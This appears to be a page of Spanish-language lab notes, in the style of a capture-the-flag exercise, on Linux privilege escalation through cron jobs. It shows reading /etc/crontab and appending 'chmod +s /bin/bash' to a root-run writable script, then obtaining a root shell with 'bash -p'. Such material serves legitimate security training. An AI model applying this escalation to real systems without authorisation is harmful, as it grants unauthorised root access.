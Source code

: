 # Cron Jobs

Los trabajos cron se utilizan para ejecutar scripts o archivos binarios en momentos específicos. De forma predeterminada, se ejecutan con el privilegio de sus propietarios y no del usuario actual. Si bien los trabajos cron configurados correctamente no son inherentemente vulnerables, pueden proporcionar un vector de escalada de privilegios en algunas condiciones.\
La idea es muy simple; Si hay una tarea programada que se ejecuta con privilegios de root y podemos cambiar el script que se ejecutará, entonces nuestro script se ejecutará con privilegios de root.

Las configuraciones de trabajos cron se almacenan como crontabs (tablas cron) para ver la próxima hora y fecha en que se ejecutará la tarea.

Cada usuario del sistema tiene su archivo crontab y puede ejecutar tareas específicas ya sea que hayan iniciado sesión o no. Como es de esperar, nuestro objetivo será encontrar un trabajo cron establecido por root y hacer que ejecute nuestro script, idealmente un shell.

Cualquier usuario puede leer el archivo manteniendo los trabajos cron de todo el sistema en `/etc/crontab`

```shell
karen@ip-10-10-132-184:~$ cat /etc/crontab
```

<figure><img src="../../.gitbook/assets/20231008170907.png" alt=""><figcaption></figcaption></figure>

```shell
* * * * *  root /antivirus.sh
* * * * *  root antivirus.sh
* * * * *  root /home/karen/backup.sh
* * * * *  root /tmp/test.py
```

```
* * * * *  root /home/karen/backup.sh
```

<figure><img src="../../.gitbook/assets/20231008172944.png" alt=""><figcaption></figcaption></figure>

```shell
karen@ip-10-10-132-184:~$ echo 'chmod +s /bin/bash' >> backup.sh 
```

* Luego de un minuto la `bash` seria SUID y solo `bash -p`

<figure><img src="../../.gitbook/assets/20231008173400.png" alt=""><figcaption></figcaption></figure>
